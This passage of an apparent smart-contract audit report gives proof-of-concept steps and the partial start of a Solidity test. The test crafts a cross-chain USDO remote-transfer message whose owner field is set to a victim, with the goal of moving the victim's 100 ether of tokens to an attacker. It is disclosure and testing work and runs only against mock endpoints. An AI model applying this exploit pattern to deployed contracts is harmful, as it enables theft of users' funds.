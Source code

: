 1. Import and deploy two mock endpoints in the `Usdo.t.sol` file
2. Change the inherited OApp in `Usdo.sol` ’s implementation so that the endpoint variable is not immutable and add a `setEndpoint()` function so that the endpoint configured in `setUp()` can be chainged to the newly deployed endpoints
3. Paste the following test insde `Usdo.t.sol` :

```solidity
function testVuln_stealUSDOFromATargetUserDueToWrongParameter() public {

        // Change configured enpoints

        endpoints[aEid] = address(mockEndpointV2A);
        endpoints[bEid] = address(mockEndpointV2B);

        aUsdo.setEndpoint(address(mockEndpointV2A));
        bUsdo.setEndpoint(address(mockEndpointV2B));

        
        
        deal(address(aUsdo), makeAddr("victim"), 100 ether);

        ////////////////////////////////////////////////////////
        //                 PREPARE MESSAGES                   //
        ////////////////////////////////////////////////////////

        // FINAL MESSAGE    A ---> B                  

        SendParam memory sendParamAToBVictim = SendParam({
            dstEid: bEid,
            to: OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
            amountLD: 100 ether, // IMPORTANT: This must be set to the amount we want to steal
            minAmountLD: 100 ether,
            extraOptions: bytes(""),
            composeMsg: bytes(""),
            oftCmd: bytes("")
        });  
        MessagingFee memory feeAToBVictim = MessagingFee({
            nativeFee: 0,
            lzTokenFee: 0
        });
        
        LZSendParam memory lzSendParamAToBVictim = LZSendParam({
            sendParam: sendParamAToBVictim,
            fee: feeAToBVictim,
            extraOptions: bytes(""),
            refundAddress: makeAddr("attacker")
        });

        RemoteTransferMsg memory remoteTransferMsgVictim = RemoteTransferMsg({
            owner: makeAddr("victim"), // IMPORTANT: This will make the attack be triggered as the victim will become the srcChainSender in the destination chain
            composeMsg: bytes(""),
            lzSendParam: lzSendParamAToBVictim
        });

        uint16 index; // needed to bypass Solidity's encoding literal error
        // Create Toe Compose message for the victim
        bytes memory toeComposeMsgVictim = abi.encodePacked(
            PT_REMOTE_TRANSFER, // msgType
            uint16(abi.encode(remoteTransferMsgVictim).length), // message length (0)
            index, // index
            abi.encode(remoteTransferMsgVictim), // message
            bytes("") // next message
        );
```